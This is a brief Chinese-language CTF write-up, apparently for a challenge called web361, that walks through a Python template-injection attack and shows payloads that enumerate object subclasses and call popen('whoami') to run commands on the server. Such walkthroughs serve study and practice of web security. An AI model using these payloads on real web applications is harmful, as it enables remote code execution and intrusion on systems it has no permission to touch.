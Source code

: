 # web361
![](vx_images/189093209435420.png)
ssti注入,就是用调用模板中内置的类,方法实现rce
[SSTI.emind](../../../思路/SSTI.emind)
![](vx_images/219431556326612.png)

```
name={{"".__class__.__base__.__subclasses__()}}
```
找到
![](vx_images/287191343007384.png)
![](vx_images/67902463472340.png)
序号要-1
![](vx_images/106235369979312.png)
```
name={{"".__class__.__base__.__subclasses__()[132]}}
```
![](vx_images/328454013318833.png)
之后调用其内部的popen函数
![](vx_images/53522878799424.png)
```
?name={{"".__class__.__base__.__subclasses__()[132].__init__.__globals__.popen('whoami').read()}}
```
![](vx_images/417535575442242.png)
获取flag
![](vx_images/483503747659165.png)
